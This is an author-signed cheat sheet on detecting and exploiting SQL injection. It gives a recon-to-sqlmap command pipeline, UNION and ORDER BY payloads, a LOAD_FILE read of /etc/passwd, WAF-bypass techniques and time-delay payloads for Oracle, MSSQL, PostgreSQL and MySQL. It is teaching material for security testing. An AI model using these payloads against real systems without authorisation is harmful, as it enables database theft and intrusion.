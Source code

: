 # SQL Injection
Here are some quick methods to detect the SQL Injection vulnerability, though the methods are not limited. There are various tricks and tools.

# Methods To Find Sqli

## 1. Using Burpsuite :
```
  1. Capture the request using burpsuite.
  2. Send the request to burp scanner.
  3. Proceed with active scan.
  4. Once the scan is finished, look for SQL vulnerability that has been detected.
  5. Manually try SQL injection payloads.
  6. Use SQLMAP to speed up the process.
```
## 2. Using waybackurls and other bunch of tools :
```
  1. sublist3r -d target | tee -a domains (you can use other tools like findomain, assetfinder, etc.)
  2. cat domains | httpx | tee -a alive
  3. cat alive | waybackurls | tee -a urls
  4. gf sqli urls >> sqli
  5. sqlmap -m sqli --dbs --batch
  6. use tamper scripts
```
## 3. Using heuristic scan to get hidden parameters :
```
  1. Use subdomain enumeration tools on the domain.
  2. Gather all urls using hakcrawler, waybackurls, gau for the domain and subdomains.
  3. You can use the same method described above in 2nd point.
  4. Use Arjun to scan for the hidden params in the urls. 
  5. Use --urls flag to include all urls.
  6. Check the params as https://domain.com?<hiddenparam>=<value>
  7. Send request to file and process it through sqlmap.
```
## 4. Error generation with untrusted input or special characters :
```
  1. Submit single quote character ' & look for errors.
  2. Submit SQL specific query.
  3. Submit Boolean conditions such as or 1=1 and or 1=0, and looking application's response.
  4. Submit certain payloads that results in time delay.
```
# Post-Methods
## 1. Finding total number of columns with order by or group by or having :
```
  Submit a series of ORDER BY clause such as 
	  
    ' ORDER BY 1 --
	  ' ORDER BY 2 --
    ' ORDER BY 3 --
    
    and incrementing specified column index until an error occurs.
```
## 2. Finding vulnerable columns with union operator :
```
  Submit a series of UNION SELECT payloads.
  
	  ' UNION SELECT NULL --
    ' UNION SELECT NULL, NULL --
    ' UNION SELECT NULL, NULL, NULL --
    
  (Using NULL maximizes the probability that the payload will succeed. NULL can be converted to every commonly used data type.)
```
* To go for the methods in more detail, go through portswigger site.
  
  https://portswigger.net/web-security/sql-injection/union-attacks

## 3. Extracting basic information like database(), version(), user(), UUID() with concat() or group_concat()

### 1. Database version
```
    Oracle 			  SELECT banner FROM v$version
		       		  SELECT version FROM v$instance
    
    Microsoft 			  SELECT @@version
    
    PostgreSQL 			  SELECT version()
    
    MySQL 			  SELECT @@version
```
### 2. Database contents
```
    Oracle        SELECT * FROM all_tables
	          SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
    
    Microsoft 	  SELECT * FROM information_schema.tables
                  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
    
    PostgreSQL 	  SELECT * FROM information_schema.tables
                  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

    MySQL         SELECT * FROM information_schema.tables
                  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
### 3. Shows version, user and database name
```
   ' AND 1=2 UNION ALL SELECT concat_ws(0x3a,version(),user(),database())
```
### 4. Using group_concat() function, used to concat all the rows of the returned results.
```  
   ' union all select 1,2,3,group_concat(table_name),5,6 from information_schema.tables where table_schema=database()–
```
## 4. Accessing system files with load_file(). and advance exploitation afterwards :
```
   ' UNION ALL SELECT LOAD_FILE ('/ etc / passwd')
```
## 5. Bypassing WAF :

### 1. Using Null byte before SQL query.
```
    %00' UNION SELECT password FROM Users WHERE username-'xyz'--
```
### 2. Using SQL inline comment sequence.
```
    '/**/UN/**/ION/**/SEL/**/ECT/**/password/**/FR/OM/**/Users/**/WHE/**/RE/**/username/**/LIKE/**/'xyz'-- 
```
### 3. URL encoding
```      
      for example :
    / URL encoded to %2f
    * URL encoded to %2a

    Can also use double encoding, if single encoding doesn't works. Use hex encoding if the rest doesn't work.
```
### 4. Changing Cases (uppercase/lowercase)
* For more step wise detailed methods, go through the link below.

  https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF
### 5. Use SQLMAP tamper scripts. It helps bypass WAF/IDS/IPS.
* 1. Use Atlas. It helps suggesting tamper scripts for SQLMAP.
     
     https://github.com/m4ll0k/Atlas
* 2. JHaddix post on SQLMAP tamper scripts.
     
     https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423
        
## 6. Time Delays :
```
      Oracle 	      dbms_pipe.receive_message(('a'),10)
      
      Microsoft 	  WAITFOR DELAY '0:0:10'
      
      PostgreSQL 	  SELECT pg_sleep(10)
      
      MySQL 	      SELECT sleep(10) 
```      
## 7. Conditional Delays :
```
      Oracle 	      SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
      
      Microsoft 	  IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
      
      PostgreSQL 	  SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
      
      MySQL 	      SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a') 
```      
# Resources and tools that will help gain an upper hand on finding bugs :
* Portswigger SQL Injection cheat sheet - https://portswigger.net/web-security/sql-injection/cheat-sheet
* HTTPX - https://github.com/encode/httpx
* GF patterns - https://github.com/1ndianl33t/Gf-Patterns
* GF (Tomnomnom)- https://github.com/tomnomnom/gf
* We can also use gau with waybackurls to fetch all urls.
* Waybackurls - https://github.com/tomnomnom/waybackurls
* Gau - https://github.com/lc/gau
* Arjun - https://github.com/s0md3v/Arjun
* Hakcrawler - https://github.com/hakluke/hakrawler


### Author :

*[@xhan1x](https://twitter.com/xhan1x)
